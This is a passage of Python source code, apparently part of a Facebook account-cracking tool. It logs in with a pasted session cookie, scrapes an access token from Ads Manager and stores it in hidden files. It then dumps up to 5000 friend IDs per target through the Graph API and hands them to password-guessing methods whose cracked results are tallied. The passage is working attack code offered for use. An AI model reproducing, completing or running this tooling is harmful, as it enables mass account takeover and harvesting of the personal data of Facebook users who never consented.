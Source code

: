                                 YASHIworld.submit(self.methodC, uid, name, pwx)
                            elif 'methodD' in methods:
                                YASHIworld.submit(self.methodD, uid, name, pwx)
                   except:pass
            result(oks,cps)   
            

def remove_Tc():
        os.system('rm -rf .token.txt .cookie.txt');print(f'\n{F}Logout Successfully ...')
        login()
        
def login():
    clear()
    print('\x1b[00m\tLogin Using Cookies') 
    try:
        fbcokis= input('\n\x1b[00mPut Cookies:\x1b[92m')
        fact = requests.get("https://adsmanager.facebook.com/adsmanager/", cookies = {"cookie":fbcokis},headers=head).text
        act = re.search("act=(.*?)&nav_source",str(fact)).group(1)
        ftoken = requests.get(f"https://adsmanager.facebook.com/adsmanager/manage/campaigns?act={act}&nav_source=no_referrer", cookies = {"cookie":fbcokis}).text
        eaab = re.search('accessToken="(.*?)"',str(ftoken)).group(1)
        open(".tokn.txt", "w").write(eaab)
        open(".cokis.txt", "w").write(fbcokis)
        token = open('.tokn.txt','r').read()
        info = requests.get('https://graph.facebook.com/me/?access_token='+token,cookies = {"cookie":fbcokis}).json()
        print(f"{R}Login Successfully")
        menu()
    except Exception as error: 
        os.system("rm -f .tokn.txt")
        print("\x1b[1;91m\n\t\t[!] Cookies Expired ")
        slp(2)
        login()

def public():
    fbidz = []
    clear()
    print(logo)
    global totaldmp,count,srange 
    try:
        fbcokis = open(".cokis.txt", "r").read()
        token = open('.tokn.txt','r').read()
    except FileNotFoundError:
        print(f"{A}Cookie Expired ")
        slp(1)
        cmd('rm -rf .token.txt .cokis.txt')
        login()
    try:
        clear()
        srange = int(input('How many IDs do you want to add?: ' ))
        clear()
        for rept in range(srange):
            rept += 1
            fbuid = input("[" + str(rept) + "] Put id username: ")
            clear()
            if  fbuid=='stop':
                break
                ys.close()
            try:
                dmp = requests.get("https://graph.facebook.com/"+fbuid+"/friends?limit=5000&access_token="+token,cookies = {"cookie":fbcokis}).json()
                for idnm in dmp['friends']['data']:
                    totaldmp+=1
                    fbidz.append(idnm['id'])